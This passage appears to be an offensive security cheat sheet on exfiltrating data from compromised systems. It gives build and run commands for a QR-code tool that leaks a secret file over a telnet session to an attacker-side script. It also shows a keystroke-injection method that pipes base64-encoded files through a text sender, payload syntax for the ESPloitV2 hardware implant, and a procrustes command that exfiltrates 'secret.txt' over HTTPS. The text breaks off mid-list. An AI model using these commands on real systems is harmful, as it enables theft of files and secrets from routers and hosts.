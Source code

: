 For telnet (routers, etc):

```
gcc -c lib/qrcodegen.c
gcc -c qr_upload.c
gcc qr_upload.c qrcodegen.o -o qr_upload
setterm -background white
setterm -foreground black
TIMEOUT=1000 SIZE=100 ./qr_upload /path/to/secret.bin
```

Attacker side: `./qr_download.py`

6. Sendkeys (File download)

If nothing works you can always fill text (universal):

```
setxkbmap us
cat /tmp/test.txt | ./text_send.sh
cat /tmp/test.bin | base64 | ./text_send.sh
```




### Atmega 32u4/ESP8266


Commenting code:  
--"Rem: Comment"  
--Set comments


Set the default delay for a specific payload:  
--"DefaultDelay:X"  
--Overrides the default delay set in the ESPloit configuration portal but only for this specific payload  
--Delay is in milliseconds and defined as the wait between sending lines in the payload  
--Example: "DefaultDelay:10000" will wait 10 seconds between sending each line in the payload

Set a one time delay between sending lines in payload  
--"CustomDelay:X"  
--The default delay will still apply for all other lines except this one  
--Example: "CustomDelay:5000" will ignore the default delay for this line and waits 5 seconds before sending the next line in the payload


https://github.com/exploitagency/ESPloitV2


### automates the exfiltration


1. Exfiltrate a text file via HTTPS using procrustes:
    
    
    `procrustes https exfiltrate -f secret.txt -o output.log`
    
2. Exfiltrate a directory recursively via HTTPS:
    